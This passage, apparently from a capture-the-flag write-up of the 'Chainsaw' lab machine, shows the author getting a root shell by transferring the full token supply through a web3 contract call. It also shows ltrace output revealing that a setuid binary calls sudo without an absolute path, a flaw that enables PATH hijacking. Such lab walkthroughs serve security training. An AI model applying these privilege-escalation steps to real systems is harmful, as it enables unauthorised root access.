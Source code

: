 Since I see that the total supply is 1000, I'll transfer all of it:



    >>> contract.functions.transfer(1000).transact()
    HexBytes('0x24f7591dc75e60a1f82381497457a0e91946aee7d440f5f7339ba3da39b4fd5e')



Now when I log in, I get a root shell:



    bobby@chainsaw:~/projects/ChainsawClub$ ./ChainsawClub 

          _           _
         | |         (_)
      ___| |__   __ _ _ _ __  ___  __ ___      __
     / __| '_ \ / _` | | '_ \/ __|/ _` \ \ /\ / /
    | (__| | | | (_| | | | | \__ \ (_| |\ V  V /
     \___|_| |_|\__,_|_|_| |_|___/\__,_| \_/\_/
                                                club

    - Total supply: 1000
    - 1 CHC = 51.08 EUR
    - Market cap: 51080 (€)

    [*] Please sign up first and then log in!
    [*] Entry based on merit.

    Username: 0xdf
    Password: 

             ************************
             * Welcome to the club! *
             ************************

     Rule #1: Do not get excited too fast.
        
    root@chainsaw:/home/bobby/projects/ChainsawClub# id
    uid=0(root) gid=0(root) groups=0(root)



### Path 2: Exploit Path

The shortcut here is to exploit the fact that the binary makes a call to
`sudo` without specifying the path. I can see this if I run `ltrace`:



    bobby@chainsaw:~/projects/ChainsawClub$ ltrace ./ChainsawClub 
    setuid(0)= -1
    system("sudo -i -u root /root/ChainsawCl"...[sudo] password for bobby: 



`system` is passed `sudo` without a path, so it will use the current
path, which I can modify. I'll open this binary up in [Beyond
Root](#beyond-root) and see what it's doing.
